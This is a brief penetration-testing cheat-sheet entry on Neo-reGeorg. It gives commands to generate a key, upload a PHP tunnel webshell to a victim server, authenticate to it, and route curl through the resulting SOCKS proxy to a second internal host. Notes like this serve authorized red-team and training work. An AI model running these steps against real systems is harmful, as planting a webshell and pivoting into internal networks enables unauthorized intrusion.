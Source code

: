 ## Tools: Neo-reGeorg https://github.com/L-codes/Neo-reGeorg

#### 1) Generate key

    python3 neoreg.py generate -k KEY 

#### 2) Upload the PHP file to SERVER1

#### 3) Authenticate to the webshell with your key

    python3 neoreg.py -k KEY -u http://VICTIM_SERVER1/uploader/files/tunnel.php

#### 4) 

    curl --socks5 127.0.0.1:1080 http://VICTIM_SERVER2:80 

## TIP" We can also use proxychains or FoxyProxy

